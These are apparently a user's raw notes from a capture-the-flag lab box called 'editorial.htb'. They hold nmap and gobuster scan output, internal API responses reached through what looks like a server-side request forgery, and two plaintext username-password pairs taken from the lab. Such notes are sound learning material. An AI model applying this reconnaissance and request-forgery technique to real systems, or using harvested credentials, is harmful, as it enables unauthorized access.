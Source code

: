 
nmap scan 

`Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-02 09:46 EDT`
`Nmap scan report for 10.10.11.20`
`Host is up (0.048s latency).`
`Not shown: 998 closed tcp ports (conn-refused)`
`PORT   STATE SERVICE VERSION`
`22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)`
`| ssh-hostkey:` 
`|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)`
`|_  256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)`
`80/tcp open  http    nginx 1.18.0 (Ubuntu)`
`|_http-server-header: nginx/1.18.0 (Ubuntu)`
`|_http-title: Did not follow redirect to http://editorial.htb`
`Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel`

`Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .`
`Nmap done: 1 IP address (1 host up) scanned in 36.00 seconds`


gobuster dir scan with comon list : 

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)

+ Url:                     http://editorial.htb
+ Method:                  GET
+ Threads:                 10
+ Wordlist:                /usr/share/wordlists/dirb/common.txt
+ Negative Status codes:   404
+ User Agent:              gobuster/3.6
+ Timeout:                 10s

Starting gobuster in directory enumeration mode


2K/about                (Status: 200) [Size: 2939]

2K/upload               (Status: 200) [Size: 7140]

===============================================================
Finished



site : 

![[Pasted image 20240802172319.png]]

![[Pasted image 20240802172421.png]]
![[Pasted image 20240803212144.png]]



![[Pasted image 20240803212054.png]]


![[Pasted image 20240803212027.png]]

![[Pasted image 20240804091918.png]]


![[Pasted image 20240804091853.png]]


`{"messages":[{"promotions":{"description":"Retrieve a list of all the promotions in our library.","endpoint":"/api/latest/metadata/messages/promos","methods":"GET"}},{"coupons":{"description":"Retrieve the list of coupons to use in our library.","endpoint":"/api/latest/metadata/messages/coupons","methods":"GET"}},{"new_authors":{"description":"Retrieve the welcome message sended to our new authors.","endpoint":"/api/latest/metadata/messages/authors","methods":"GET"}},{"platform_use":{"description":"Retrieve examples of how to use the platform.","endpoint":"/api/latest/metadata/messages/how_to_use_platform","methods":"GET"}}],"version":[{"changelog":{"description":"Retrieve a list of all the versions and updates of the api.","endpoint":"/api/latest/metadata/changelog","methods":"GET"}},{"latest":{"description":"Retrieve the last version of api.","endpoint":"/api/latest/metadata","methods":"GET"}}]}`


`http://127.0.0.1:5000/api/latest/metadata/messages/coupons`

> `{"2anniversaryTWOandFOURread4":{"contact_email_2":"info@tiempoarriba.oc","valid_until":"12/02/2024"}},{"frEsh11bookS230":{"contact_email_2":"info@tiempoarriba.oc","valid_until":"31/11/2023"}}`
> 


`http://127.0.0.1:5000/api/latest/metadata/messages/authors`

> 
> `{"template_mail_message":"Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."}`


`http://127.0.0.1:5000/api/latest/metadata/changelog`

> `{"1":{"api_route":"/api/v1/metadata/","contact_email_1":"soporte@tiempoarriba.oc","contact_email_2":"info@tiempoarriba.oc","editorial":"Editorial El Tiempo Por Arriba"}},{"1.1":{"api_route":"/api/v1.1/metadata/","contact_email_1":"soporte@tiempoarriba.oc","contact_email_2":"info@tiempoarriba.oc","editorial":"Ed Tiempo Arriba"}},{"1.2":{"contact_email_1":"soporte@tiempoarriba.oc","contact_email_2":"info@tiempoarriba.oc","editorial":"Editorial Tiempo Arriba","endpoint":"/api/v1.2/metadata/"}},{"2":{"contact_email":"info@tiempoarriba.moc.oc","editorial":"Editorial Tiempo Arriba","endpoint":"/api/v2/metadata/"}}`


![[Pasted image 20240804094536.png]]


![[Pasted image 20240804094938.png]]

user mame prod 
pass 080217_Producti0n_2023!@